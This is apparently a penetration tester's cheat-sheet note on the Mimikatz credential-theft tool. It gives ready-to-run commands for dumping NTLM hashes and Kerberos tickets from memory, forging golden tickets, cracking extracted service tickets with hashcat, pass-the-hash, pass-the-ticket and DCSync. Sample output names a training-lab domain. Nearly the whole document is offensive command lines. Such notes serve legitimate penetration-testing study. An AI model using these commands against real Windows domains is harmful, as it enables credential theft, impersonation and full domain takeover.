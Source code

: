 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

## Summary
Mimikatz is a windows tool for extracting plaintext passwords, hashes, PIN codes, and kerberos tickets from memory. It is also capable of performing Pass-the-Hash, Pass-the-Ticket, or build *Golden* tickets.
> [pypykatz](https://github.com/skelsec/pypykatz) is a python implementation of the tool that can be run on linux systems.
> [Linikatz](https://github.com/CiscoCXSecurity/linikatz) performs a similar role for linux too

## Installation
Pre-built binaries available in the git repo: https://github.com/gentilkiwi/mimikatz/releases
## Documentation
**Cheatsheet:** 
**Website:** https://github.com/gentilkiwi/mimikatz
## Usage
### Obtaining Hashes & Tickets
```batch
# Obtain NTLM hashes for users
C:\> mimikatz.exe privilege::debug "sekurlsa::logonpasswords" exit

# Obtain Kerberos Tickets (This potentially doesn't work for some W10 versions as it uses the wrong encryption)
C:\> mimikatz.exe privilege::debug "sekurlsa::tickets /export" exit

C:\> dir *.kirbi

<SNIP>
-a----        7/12/2022   9:44 AM           1445 [0;6c680]-2-0-40e10000-johnny@krbtgt-inlanefreight.htb.kirbi
-a----        7/12/2022   9:44 AM           1565 [0;3e7]-0-2-40a50000-DC01$@cifs-DC01.inlanefreight.htb.kirbi
<SNIP>

```
> For the tickets:
> - If it ends with `$` (Result 2 above) then it corresponds to the computer account (allowing the system to interact with Active Directory)
> - User tickets have the user's name (Result 1 above) followed by an `@` then the service name and domain. It follows the format `[random_value]-username@service-domain.local.kirbi`
> - If a user ticket has the service `krbtgt` then it is the [[Operating Systems/Windows/Kerberos#Ticket Granting Ticket (TGT)|TGT]] of that account.

### Exporting Kerberos Keys
Keys are not the same as tickets, they are encryption keys that Kerberos uses for creating TGTs.
```batch
C:\> mimikatz.exe privilege::debug "sekurlsa::ekeys" exit
```

### Create a Golden Ticket
``` PowerShell
kerberos::golden /user:[user] /domain:[domain] /sid:[domain-sid] /krbtgt:[krbtgt-acc-nthash] /sids:[additional-sids] /ptt
```

### Extracting Kerberos TGS Tickets
```batch
C:\> mimikatz.exe privilege::debug
	base64 /out:true
	kerberos::list /export
```
> Without `base64 /out:true` it will extract to a `.kirbi` file, writing them to disk on the target machine (so will need to be exfiltrated)

As the base64 export is column wrapped, we need to prepare it for cracking:
```bash
# Remove any new lines and whitespace
echo "<base64 blob>" |  tr -d \\n
# Place the output into a file

# Convert to a .kirbi file
cat encoded_file | base64 -d > user.kirbi

# Conver it with john
python kirbi2john.py user.kirbi

# Modify the crack file for hashcat
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > user_tgs_hashcat

# Crack it
hashcat -m 13100 user_tgs_hashcat rockyou.txt
```

### Pass-the-Hash
Using the `sekurlsa::pth` module we can perform a pass-the-hash attack. It starts a process using the user's hash.
```batch
C:\> mimikatz.exe privilege::debug "sekurlsa::pth /user:<user> /NTLM:<hash> /domain:<AD_domain> /run:cmd.exe" exit
```
> We can specify any program in the `/run:` flag to launch any program but a shell is often most useful.

### Pass the Ticket
Using the `kerberos::ptt` module we can perform a pass-the-ticket attack using a `.kirbi` ticket file.
```batch
C:\> mimikatz.exe privilege::debug "kerberos::ptt <ticket_file> exit
```

### [[Abusing ACLs#DCSync|DCSync]]
> We may have to use `runas /netonly /user:[domain]\[user] powershell` as we need to be running in the context of the user with the DCSync permissions
```PowerShell
mimikatz.exe privilege::debug "lsadump::dcsync /domain:[domain] /user:[domain]\[user]"
```
